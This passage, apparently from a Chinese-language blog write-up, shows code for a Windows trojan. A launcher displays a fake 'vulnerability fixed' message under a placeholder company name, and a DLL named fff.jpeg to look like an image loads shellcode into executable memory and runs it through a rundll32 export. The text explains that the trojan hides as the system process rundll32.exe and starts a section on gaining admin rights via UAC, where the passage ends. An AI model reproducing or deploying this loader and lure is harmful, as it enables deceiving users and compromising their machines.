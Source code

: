 ```c
		&pi);
	cout << GetLastError() << endl;
	MessageBox(NULL, TEXT("修复漏洞成功！"), TEXT("上海xxx"), MB_OK | MB_ICONINFORMATION);
	
    return 0;
}
```



fff.jpeg的代码：

```c
// Win32Project6.cpp : 定义 DLL 应用程序的导出函数。
//

#include "stdafx.h"
#include "Win32Project6.h"

typedef void(_stdcall *CODE)();
// 这是导出变量的一个示例
WIN32PROJECT6_API int nWin32Project6=0;


extern "C" _declspec(dllexport) void __cdecl rundll32dllfun(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine,int nCmdShow)
{
	unsigned char buf[] =
		"\xbf\xaa\x57\x39\xb0\xda\xdd\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
		"\xd6\x83\xe8\xfc\x31\x78\x10\x03\x78\x10\x48\xa2\x81\x35\xa2"
		"\x82\x9c\xef\x7f\xc5\x15\x34\x8b\xad\xe6\xfd\xc2\x9d\x38\xbd"
		"\x31\x21\x78\x54\xba\xce\x82\xb4\xcc\xe5\x68\x8e\x22\x28\xd7"
		"\x06\x8c\x96\x0a\x7b\xed\x44\xf0\x94\x65\x0e\xa4\x3b\x2e\xcb"
		"\xe7\x17\x60\xaf\x1d\xa4\x57\x1f\xb1\xf3\x01\x31\x5c\x6a\x97"
		"\xf...省略...";
	PVOID p = NULL;
	p = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (p != NULL)
	{
		memcpy(p, buf, sizeof(buf));
		CODE code = (CODE)p;
		code();
	}
	return;
}
```

其中`extern "C" _declspec(dllexport) void __cdecl rundll32dllfun`是符合rundll32加载的固定函数定义格式。

当木马运行后，会在进程列表创建rundll32.exe，它是一个系统文件。

### UAC

为了使木马获取更高的权限，我开启了管理员权限申请：
